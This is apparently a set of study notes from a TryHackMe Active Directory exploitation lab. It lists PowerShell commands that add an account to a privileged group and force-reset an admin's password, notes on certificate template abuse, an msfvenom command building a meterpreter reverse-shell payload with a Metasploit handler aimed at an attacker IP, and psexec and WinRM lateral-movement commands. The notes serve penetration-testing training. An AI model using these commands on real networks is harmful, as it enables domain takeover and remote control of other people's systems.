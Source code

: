 ## EXPLOITNG AD
### Delegating Permission
- Add account to group member
```
Add user to group ==> Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username" 
check group ==> Get-ADGroupMember -Identity "IT Support" 
Find users ==> Get-ADGroupMember -Identity "Tier 2 Admins"

Force Change Password:
- $Password = 'TryHackme!' | ConvertTo-SecureString -AsPlainText -Force
# OR
- $Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force 
######
- Set-ADAccountPassword -Identity "t2_henry.shaw" -Reset -NewPassword $Password 
# OR
- Set-ADAccountPassword -Identity $t2admin -Reset -NewPassword $password

Connect to user
xfreerdp /v:thmwrk1.za.tryhackme.loc /u:'t2.admin' /p:'newpass'
```

### Certicate Template
- certutil -Template -v ==> Configuration of certiciate
- some combinations are vulnerable
- Steps
  - impersonate user
  - create ticket

### Exploit Users

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=Attacker_IP LPORT="Listening port" -f psh -o shell.ps1

# Execute
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT "listening port'; exploit"
```


## LATERAL MOVEMENT
- move inside network within same privilege
  - Local accounts = UAC restrict
  - Domain account = no restriction

- **psexec.exe** = execute process remotly (sysinternal)
  - psexec.exe \\IP -u USER -p PAss -i COMMAND.exe
  
- **Remote Management (WinRM)**
  - web + powershellcommands
  - winrs.exe -u:USER -p:PASS -r:targetIP COMMAND
  - Powershell:
  